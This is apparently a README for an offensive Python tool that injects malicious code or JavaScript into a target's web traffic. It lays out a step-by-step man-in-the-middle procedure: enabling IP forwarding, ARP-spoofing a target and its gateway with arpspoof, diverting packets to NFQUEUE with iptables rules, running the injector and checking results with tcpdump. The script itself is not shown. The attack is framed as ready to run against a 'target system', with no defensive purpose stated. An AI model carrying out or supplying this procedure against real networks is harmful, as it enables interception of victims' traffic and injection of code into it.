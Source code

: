 ### Inject Code
is a program to inject our malicious code to target system while we are spoofing the target.  
We can inject our any code or javascript code, we will not create response but will modify raw request that is sent by target.

### usage - sudo python2 inject_code.py
or we can run sudo python inject_code.py

<pre>Steps:  
    0. Update script with required changes - updating host and file to file.  
    1. Forward all packets to our computer  
        1. echo 1 > /proc/sys/net/ipv4/ip_forward  
    2. ARP Spoof  
    	1. arpspoof -i eth0 -t 10.0.2.15 10.0.2.1  
	    2. arpspoof -i eth0 -t 10.0.2.1 10.0.2.15  
    3. Forward all dns - block all real packets  
    	To test in local system or same system  
	        1. sudo iptables -I OUTPUT -j NFQUEUE --queue-num 0  
          2. sudo iptables -I INPUT -j NFQUEUE --queue-num 0  
            or we can route for specific port
          1. sudo iptables -I OUTPUT -p tcp --sport 80 -j NFQUEUE --queue-num 0  
	        2. sudo iptables -I INPUT -p tcp --dport 80 -j NFQUEUE --queue-num 0  
       To test in other system, target system  
          1. sudo iptables -I FORWARD -j NFQUEUE --queue-num 0     
    4. sudo python2 inject_code.py  or  sudo python inject_code.py
    5. To check if its working  
        1. tcpdump -i eth0 udp port 53  
        2. sudo iptables -L -v -n  
        3. sudo tcpdump -i any port 80 -A | grep ".jpg"  
        4. sudo tcpdump -i any -A port 80 | grep -Ei "\.jpg|\.exe|\.pdf"  
    6. After completing - flush the rules  
        1. iptables --flush  
        2. iptables -t nat -F  

Run the steps following them and we can inject the code in target system.

Requirements - install required libraries. For help, refer tools section
